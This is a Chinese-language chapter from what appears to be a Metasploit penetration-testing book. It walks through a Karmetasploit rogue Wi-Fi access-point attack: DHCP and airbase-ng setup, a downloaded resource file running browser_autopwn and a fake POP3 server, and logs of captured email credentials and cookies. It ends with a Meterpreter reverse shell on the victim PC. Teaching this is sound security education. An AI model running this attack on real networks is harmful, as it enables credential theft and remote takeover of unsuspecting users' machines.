

## 第十二章。Karmetasploit

Karmetasploit 是 Metasploit 对 KARMA 的实现，KARMA 是由 Dino Dai Zovi 和 Shane Macaulay 开发的一套无线安全工具。KARMA 利用 Windows XP 和 Mac OS X 操作系统搜索网络的方式中固有的漏洞：当每个系统启动时，它会发送信标寻找之前连接过的网络。

使用 KARMA 的攻击者会在他的电脑上设置一个假接入点，然后监听并响应来自目标的目标信标，假装是客户端正在寻找的任何无线网络。由于大多数客户端电脑都配置为自动连接它们已经使用过的无线网络，因此 KARMA 可以用来完全控制客户端的网络流量，从而允许攻击者发起客户端攻击、捕获密码等。鉴于不安全的公司无线网络的普遍存在，使用 KARMA 的攻击者可以坐在附近的停车场、相邻的办公室或类似的地方，几乎不费吹灰之力就能访问目标网络。您可以在 [`trailofbits.com/karma/`](http://trailofbits.com/karma/) 上了解更多关于 KARMA 的原始实现。

Karmetasploit 是 Metasploit 框架对 KARMA 攻击的实现。它实现了包括 DNS、POP3、IMAP4、SMTP、FTP、SMB 和 HTTP 在内的各种“邪恶”服务。这些服务接受并响应来自客户端的大多数请求，并将提供各种恶意娱乐。（各种模块位于 Metasploit 根目录下的 *modules/auxiliary/server* 目录中。）

## 配置

Karmetasploit 需要非常少的配置。首先，我们配置一个 DHCP 服务器，用于向无线目标分配 IP 地址。Back|Track 包含一个 DHCP 服务器，但我们需要为它创建一个自定义配置文件，以便与 Karmetasploit 一起使用，如下所示列表：

```
 option domain-name-servers 10.0.0.1;
  default-lease-time 60;
  max-lease-time 72;
  ddns-update-style none;
  authoritative;
  log-facility local7;
  subnet 10.0.0.0 netmask 255.255.255.0 {
      range 10.0.0.100 10.0.0.254;
          option routers 10.0.0.1;
          option domain-name-servers 10.0.0.1;
  }
```

我们通过输入 **`cp /etc/dhcp3/dhcpd.conf/etc/dhcp3/dhcpd.conf.back`** 来备份我们的原始 *dhcpd.conf* 文件，然后创建一个包含  中所示数据的新的文件，该文件将为 10.0.0.100 到 10.0.0.254 范围内的地址提供服务 。（如果你对 DHCP 配置不熟悉，不要担心；只要你的新 *dhcpd.conf* 看起来与此类似，它应该可以正常工作。）

接下来，我们下载 KARMA 资源文件，因为截至本文撰写时，它尚未包含在常规 Metasploit 主干中：

```
root@bt:/opt/metasploit3/msf3# `wget`
`http://www.offensive-security.com/downloads/karma.rc`
```

当我们打开 KARMA 资源文件 *karma.rc* 时，可以看到它运行时发生的事件序列，如下所示：

```
root@bt:/opt/metasploit3/msf3# `cat karma.rc`
  db_connect postgres:toor@127.0.0.1/msfbook
 use auxiliary/server/browser_autopwn
 setg AUTOPWN_HOST 10.0.0.1
  setg AUTOPWN_PORT 55550
  setg AUTOPWN_URI /ads
 set LHOST 10.0.0.1
  set LPORT 45000
  set SRVPORT 55550
  set URIPATH /ads
  run
 use auxiliary/server/capture/pop3
  set SRVPORT 110
  set SSL false
  run
```

在加载用于存储结果的数据库 (`db_connect postgres:toor@127.0.0.1/msfbook`) 后，KARMA 加载了如图  所示的 `browser_autopwn` 服务器。这是一种尝试针对浏览器进行多种漏洞利用的便捷方式。框架中的许多基于浏览器的漏洞利用包含指令 `include Msf::Exploit::Remote::BrowserAutopwn`：包含该指令的漏洞利用程序将在访问 autopwn 服务器时尝试。

在  和  处，本地 IP 地址设置为 `10.0.0.1`，这与默认的 DHCP 配置相吻合。然后，从  行开始，配置并启动了各种服务器。（要了解攻击中发生的完整情况，请参阅资源文件。）

接下来，我们将无线网卡置于监控模式。我们这样做的方式取决于无线网卡的芯片组。以下示例中的无线网卡使用 RT73 芯片组。我们使用 `airmon-ng start wlan0` 将其置于监控模式：

```
root@bt:/opt/metasploit3/msf3# `airmon-ng start wlan0`
```

* * *

### 注意

如果您的卡片使用与示例中不同的芯片组，请访问 Aircrack-ng 网站 ([`www.aircrack-ng.org/`](http://www.aircrack-ng.org/)) 了解如何将您的卡片置于监控模式的具体信息。

* * *

## 启动攻击

Aircrack-ng 套件中的 *airbase-ng* 组件用于创建 Karmeta-sploit 的假接入点。在下一个示例中，我们配置 `airbase-ng` 接入点以响应所有探测 (`-P`)，每 30 秒发送一次信标 (`-C 30`) 使用 ESSID Free Wi-Fi (`-e "Free WiFi"`)，并使用 `mon0` 接口详细输出 (`-v`)：

```
root@bt:/opt/metasploit3/msf3# `airbase-ng -P -C 30 -e "Free WiFi" -v mon0`
 14:06:57  Created tap interface `at0`
  14:06:57  Trying to set MTU on at0 to 1500
  14:06:57  Trying to set MTU on mon0 to 1800
  14:06:57  Access Point with BSSID 00:21:29:E2:DE:14 started.
```

如您在  所见，Airbase-ng 创建了一个名为 *at0* 的新接口。Karmetasploit 将使用此接口。

接下来，我们打开 *at0* 接口并启动 DHCP 服务器：

```
 root@bt:/opt/metasploit3/msf3#
 `ifconfig at0 up 10.0.0.1 netmask 255.255.255.0`
 root@bt:/opt/metasploit3/msf3# `dhcpd3 -cf /etc/dhcp3/dhcpd.conf at0`

  `. . . SNIP . . .`

  Wrote 0 leases to leases file.
  Listening on LPF/at0/00:21:29:e2:de:14/10.0.0/24
  Sending on   LPF/at0/00:21:29:e2:de:14/10.0.0/24
  Sending on   Socket/fallback/fallback-net
  Can't create PID file /var/run/dhcpd.pid: Permission denied.
 root@bt:/opt/metasploit3/msf3# `ps aux |grep dhcpd`
  dhcpd     4015  0.0  0.2   3812  1840 ?        Ss
   14:09   0:00 dhcpd3 -cf /etc/dhcp3/
      dhcpd.conf at0
  root      4017  0.0  0.0   2012   564 pts/4    S+   14:09   0:00 grep dhcpd
 root@bt:/opt/metasploit3/msf3# tail `tail -f /var/log/messages`
  Apr  2 14:06:57 bt kernel: device mon0 entered promiscuous mode
  Apr  2 14:09:30 bt dhcpd: Internet Systems Consortium DHCP Server V3.1.1
  Apr  2 14:09:30 bt kernel: warning: `dhcpd3' uses 32-bit
 capabilities (legacy support in use)
  Apr  2 14:09:30 bt dhcpd: Copyright 2004-2008 Internet Systems Consortium.
  Apr  2 14:09:30 bt dhcpd: All rights reserved.
  Apr  2 14:09:30 bt dhcpd: For info, please visit http://www.isc.org/sw/dhcp/
  Apr  2 14:09:30 bt dhcpd: Wrote 0 leases to leases file.
  Apr  2 14:09:30 bt dhcpd: Listening on LPF/at0/00:21:29:e2:de:14/10.0.0/24
  Apr  2 14:09:30 bt dhcpd: Sending on   LPF/at0/00:21:29:e2:de:14/10.0.0/24
```

使用如图  所示的 `10.0.0.1` IP 地址打开 *at0* 接口，并使用我们之前创建的配置文件启动 DHCP 服务器，也使用 *at0*，如图  所示。为了确保 DHCP 服务器正在运行，我们在  处运行了一个快速的 `ps aux` 命令。最后，我们在  处跟踪 *messages* 日志文件以查看 IP 地址何时被分配。

现在 Karmetasploit 的整个配置已经完成，我们可以在 *msfconsole* 中使用 `resource karma.rc` 加载资源文件，如图所示。（请注意，我们也可以通过命令行将资源文件传递给 *msfconsole*，方法是输入 `msfconsole -r karma.rc`。）让我们看看它的实际效果：

```
msf > `resource karma.rc`
  resource (karma.rc)> `db_connect postgres:toor@127.0.0.1/msfbook`
  resource (karma.rc)> `use auxiliary/server/browser_autopwn`
  resource (karma.rc)> `setg AUTOPWN_HOST 10.0.0.1`
  AUTOPWN_HOST => 10.0.0.1
  resource (karma.rc)> `setg AUTOPWN_PORT 55550`
  AUTOPWN_PORT => 55550
  resource (karma.rc)> `setg AUTOPWN_URI /ads`
  AUTOPWN_URI => /ads
 resource (karma.rc)> `set LHOST 10.0.0.1`
  LHOST => 10.0.0.1
  resource (karma.rc)> `set LPORT 45000`
  LPORT => 45000
  resource (karma.rc)> `set SRVPORT 55550`
  SRVPORT => 55550
  resource (karma.rc)> `set URIPATH /ads`
  URIPATH => /ads
  resource (karma.rc)> `run`
  [*] Auxiliary module execution completed
 resource (karma.rc)> use auxiliary/server/capture/pop3
  resource (karma.rc)> `set SRVPORT 110`
  SRVPORT => 110
  resource (karma.rc)> `set SSL false`
  SSL => false
  resource (karma.rc)> `run`

  `. . . SNIP . . .`

 [*] Starting exploit windows/browser/winzip_fileview with payload windows/
       meterpreter/reverse_tcp
  [*] Using URL: http://0.0.0.0:55550/N9wReDJhfKg
  [*] Local IP: http://192.168.1.101:55550/N9wReDJhfKg
  [*] Server started.
[*] Starting handler for windows/meterpreter/reverse_tcp on port 3333
  [*] Starting handler for generic/shell_reverse_tcp on port 6666
  [*] Started reverse handler on 10.0.0.1:3333
  [*] Starting the payload handler...
  [*] Started reverse handler on 10.0.0.1:6666
  [*] Starting the payload handler...
  [*] --- Done, found 15 exploit modules
  [*] Using URL: http://0.0.0.0:55550/ads
  [*] Local IP: http://192.168.1.101:55550/ads
  [*] Server started.
```

如您所见，资源文件中发生了很多事情。在此列表中，`LHOST` 地址在  处设置为 *10.0.0.1*，在  处启动了 POP3 服务（以及其他服务），在  处加载了 *autopwn* 漏洞利用程序，在  处配置了有效载荷。

## 凭据收集

当客户端连接到我们的恶意接入点时，我们正在跟踪的消息文件会显示何时分配了 IP 地址。这是我们切换回*msfconsole*以查看发生了什么的提示。在这里，我们看到一个客户端连接并被分配了一个 IP 地址：

```
Apr  2 15:07:34 bt dhcpd: DHCPDISCOVER from 00:17:9a:b2:b1:6d via at0
Apr  2 15:07:35 bt dhcpd: DHCPOFFER on 10.0.0.100 to
 00:17:9a:b2:b1:6d (v-xp-sp2-bare) via at0
Apr  2 15:07:35 bt dhcpd: DHCPREQUEST for 10.0.0.100 (10.0.0.1) from 00:17:9a:b2:b1:6d
    (v-xp-sp2-bare) via at0
Apr  2 15:07:35 bt dhcpd: DHCPACK on 10.0.0.100 to 00:17:9a:
b2:b1:6d (v-xp-sp2-bare) via at0
```

我们的目标首先打开一个电子邮件客户端。Karmetasploit 正在等待，如图所示：

```
[*] DNS 10.0.0.100:1049 XID 45030 (IN::A time.windows.com)
  [*] DNS 10.0.0.100:1049 XID 47591 (IN::A pop3.securemail.com)
 [*] POP3 LOGIN 10.0.0.100:1102 bsmith / s3cr3tp4s5
```

Metasploit 配置的 POP3 服务器在处拦截了目标电子邮件的用户名和密码，因为所有 DNS 请求都被 Karmetasploit 为我们设置的 DNS 服务器拦截。

## 获取 Shell

在这个阶段，用户没有新的消息，所以他决定浏览一下网页。当浏览器打开时，用户会看到一个*捕获门户*，如图图 12-1 所示。

图 12-1. Karmetasploit 捕获门户

当用户坐在电脑前，想知道发生了什么时，Karmetasploit 正忙于配置攻击以捕获 cookies；设置虚假的电子邮件、DNS 和其他服务器；并对客户端的浏览器发起攻击——所有这些都是我们*karma.rc*文件中包含的魔法的结果。

当然，这种攻击涉及一定程度的好运。当启动漏洞时，浏览器将显示“加载”页面。如果用户不耐烦，他可能会简单地关闭浏览器窗口，这将停止我们的漏洞攻击。

接下来，你可以看到由此攻击产生的巨大输出量：

```
[*] HTTP REQUEST 10.0.0.100 > www.microsoft.com:80 GET /isapi/redir.dll Windows IE 6.0
       cookies=WT_NVR=0=/:1=downloads:2=downloads/en;
 WT_FPC=id=111.222.333.444-1008969152
      .30063513:lv=1267703430218:ss=1267703362203;MC1
=GUID=09633fd2bddcdb46a1fe62cc49fb4ac4&HASH=
      d23f&LV=20103&V=3; A=I&I=AxUFAAAAAAAu
BwAADSAT6RJMarfs902pHsnj0g!!; MUID=C7149D932C864
      18EBC913CE45C4326AE
  [*] Request '/ads' from 10.0.0.100:1371

 [*] HTTP REQUEST 10.0.0.100 > adwords.google.com:80
 GET /forms.html Windows IE 6.0 cookies=
  [*] HTTP REQUEST 10.0.0.100 > blogger.com:80 GET /forms.html Windows IE 6.0 cookies=
  [*] HTTP REQUEST 10.0.0.100 > care.com:80 GET /forms.html Windows IE 6.0 cookies=
  [*] HTTP REQUEST 10.0.0.100 > careerbuilder.com:80 GET
 /forms.html Windows IE 6.0 cookies=
  [*] HTTP REQUEST 10.0.0.100 > ecademy.com:80 GET /forms.html Windows IE 6.0 cookies=
  [*] HTTP REQUEST 10.0.0.100 > facebook.com:80 GET /
forms.html Windows IE 6.0 cookies=

  `. . . SNIP . . .`

  [*] HTTP REQUEST 10.0.0.100 > www.slashdot.org:80
 GET /forms.html Windows IE 6.0 cookies=
  [*] HTTP REQUEST 10.0.0.100 > www.twitter.com:80
 GET /forms.html Windows IE 6.0 cookies=
  [*] Request '/ads?sessid=V2luZG93czpYUDpTUDI6ZW
4tdXM6eDg2Ok1TSUU6Ni4wO1NQMjo%3d' from
       10.0.0.100:1371
 [*] JavaScript Report: Windows:XP:SP2:en-us:x86:MSIE:6.0;SP2:
 [*] Responding with exploits
  [*] HTTP REQUEST 10.0.0.100 > www.xing.com:80 GET /
forms.html Windows IE 6.0 cookies=
  [*] HTTP REQUEST 10.0.0.100 > www.yahoo.com:80 GET /forms.html
 Windows IE 6.0 cookies=
  [*] HTTP REQUEST 10.0.0.100 > www.ziggs.com:80 GET /forms.html
 Windows IE 6.0 cookies=
  [*] HTTP REQUEST 10.0.0.100 > xing.com:80 GET /forms.html Windows IE 6.0 cookies=
  [*] HTTP REQUEST 10.0.0.100 > yahoo.com:80 GET /forms.html Windows IE 6.0 cookies=
  [*] HTTP REQUEST 10.0.0.100 > ziggs.com:80 GET /forms.html Windows IE 6.0 cookies=
  [*] HTTP REQUEST 10.0.0.100 > care.com:80 GET / Windows IE 6.0 cookies=
  [*] HTTP REQUEST 10.0.0.100 > www.care2.com:80 GET / Windows IE 6.0 cookies=

[*] HTTP REQUEST 10.0.0.100 > activex.microsoft.com:80
 POST /objects/ocget.dll Windows IE
       6.0 cookies=WT_FPC=id=111.222.333.444-1008969152.30063513:lv=1267703430218:ss=
       1267703362203; MC1=GUID=09633fd2bddcdb46a1fe62cc49fb4ac4&
HASH=d23f&LV=20103&V=3;A=I&I=
       AxUFAAAAAAAuBwAADSAT6RJMarfs902pHsnj0g!!; MUID=C7149D932C86418EBC913CE45C4326AE
  [*] HTTP 10.0.0.100 attempted to download an ActiveX control
  [*] HTTP REQUEST 10.0.0.100 > activex.microsoft.com:80
 POST /objects/ocget.dll Windows IE
       6.0 cookies=WT_FPC=id=111.222.333.444-1008969152.
30063513:lv=1267703430218:ss=126770
       3362203; MC1=GUID=09633fd2bddcdb46a1fe62cc49fb4ac4&HASH=d2
3f&LV=20103&V=3;A=I&I=
       AxUFAAAAAAAuBwAADSAT6RJMarfs902pHsnj0g!!; MUID=C7149D932C86418EBC913CE45C4326AE
  [*] HTTP 10.0.0.100 attempted to download an ActiveX control

[*] Sending Internet Explorer COM CreateObject Code Execution
 exploit HTML to 10.0.0.100:1371...
  [*] HTTP REQUEST 10.0.0.100 > activex.microsoft.com:80 POST
 /objects/ocget.dll Windows IE
       6.0 cookies=WT_FPC=id=111.222.333.444-1008969152.30063513:lv=1267703430218:ss=
       1267703362203; MC1=GUID=09633fd2bddcdb46a1fe62cc49fb4ac4&
HASH=d23f&LV=20103&V=3;A=I&I=
       AxUFAAAAAAAuBwAADSAT6RJMarfs902pHsnj0g!!; MUID=C7149D932C86418EBC913CE45C4326AE
  [*] HTTP 10.0.0.100 attempted to download an ActiveX control
  [*] HTTP REQUEST 10.0.0.100 > codecs.microsoft.com:80
 POST /isapi/ocget.dll Windows IE 6.0
      cookies=WT_FPC=id=111.222.333.444-1008969152.30063513:lv
=1267703430218:ss=1267703362203;
      MC1=GUID=09633fd2bddcdb46a1fe62cc49fb4ac4&HASH=d23f&
LV=20103&V=3; A=I&I=AxUFAAAAAAAu
      BwAADSAT6RJMarfs902pHsnj0g!!; MUID=C7149D932C86418EBC913CE45C4326AE

  `. . . SNIP . . .`

  [*] HTTP 10.0.0.100 attempted to download an ActiveX control
  [*] HTTP REQUEST 10.0.0.100 > codecs.microsoft.com:80
 POST /isapi/ocget.dll Windows IE 6.0
       cookies=WT_FPC=id=111.222.333.444-1008969152.300
63513:lv=1267703430218:ss=1267703362203;
      MC1=GUID=09633fd2bddcdb46a1fe62cc49fb4ac4&HASH=d23f&
LV=20103&V=3; A=I&I=AxUFAAAAAAAu
      BwAADSAT6RJMarfs902pHsnj0g!!; MUID=C7149D932C86418EBC913CE45C4326AE
  [*] HTTP REQUEST 10.0.0.100 > codecs.microsoft.com:80
 POST /isapi/ocget.dll Windows IE 6.0
       cookies=WT_FPC=id=111.222.333.444-1008969152.30063
513:lv=1267703430218:ss=1267703362203;
       MC1=GUID=09633fd2bddcdb46a1fe62cc49fb4ac4&HASH=d23f&
LV=20103&V=3; A=I&I=AxUFAAAAAAAu
       BwAADSAT6RJMarfs902pHsnj0g!!; MUID=C7149D932C86418EBC913CE45C4326AE
  [*] HTTP REQUEST 10.0.0.100 > codecs.microsoft.com:80
 POST /isapi/ocget.dll Windows IE 6.0
       cookies=WT_FPC=id=111.222.333.444-1008969152.30063513:
lv=1267703430218:ss=1267703362203;
       MC1=GUID=09633fd2bddcdb46a1fe62cc49fb4ac4&HASH=d23f&
LV=20103&V=3; A=I&I=AxUFAAAAAAAu
       BwAADSAT6RJMarfs902pHsnj0g!!; MUID=C7149D932C86418EBC913CE45C4326AE
  [*] Sending EXE payload to 10.0.0.100:1371...
  [*] Sending stage (748032 bytes) to 10.0.0.100
 [*] Meterpreter session 1 opened (10.0.0.1:3333 -> 10.0.0.100:1438)
```

在这个输出中，你可以看到在处，Metasploit 首先让客户端知道各种流行的网站实际上位于攻击机器上。然后，在处，它使用 JavaScript 确定目标操作系统和浏览器，并在处根据该指纹响应以漏洞为基础。在处，客户端被展示了一个恶意 ActiveX 控件，导致在 Internet Explorer 中出现了熟悉的黄色提示栏，如图图 12-1 顶部所示。你还可以在输出中看到针对客户端启动了漏洞。经过一段短暂的时间，你会在处看到漏洞成功，并在目标 PC 上打开了一个 Meterpreter 会话！

返回到*msfconsole*，我们可以与创建的会话进行交互，并检查我们在目标上获得了哪些权限。记住，当你利用浏览器时，总是将你的进程从浏览器中迁移出来是一个好主意，以防它被关闭。

```
meterpreter > `sessions -i 1`
[*] Starting interaction with 1...
meterpreter > `sysinfo`
Computer: V-XP-SP2-BARE
OS      : Windows XP (Build 2600, Service Pack 2).
Arch    : x86
Language: en_US
meterpreter > `getuid`
Server username: V-XP-SP2-BARE\Administrator
meterpreter > `run migrate -f`
[*] Current server process: jEFiwxBKyjoHGijtP.exe (3448)
[*] Spawning a notepad.exe host process...
[*] Migrating into process ID 2232
[*] New server process: notepad.exe (2232)
meterpreter > `screenshot`
Screenshot saved to: /opt/metasploit3/msf3/rkGrMLPa.jpeg
meterpreter >
```

由于这是一个默认安装的 Windows XP SP2，安装了非常不安全的 Internet Explorer 6（两者都高度过时），客户端甚至不需要接受和安装恶意 ActiveX 控件。

## 总结

对无线网络的攻击已经是一个热门话题有一段时间了。尽管这种攻击需要一些设置，但想象一下它在位于高流量或公共区域的大量类似配置客户端中的成功率。这种攻击无线客户端的方法之所以受欢迎，通常是因为它比针对高度安全的无线基础设施的暴力攻击要容易。

现在你已经看到进行这类攻击是多么容易，你可能会对使用公共无线网络三思而后行。你确定咖啡馆提供的真的是“免费公共 Wi-Fi”吗？或者可能有人在运行 Karmetasploit？
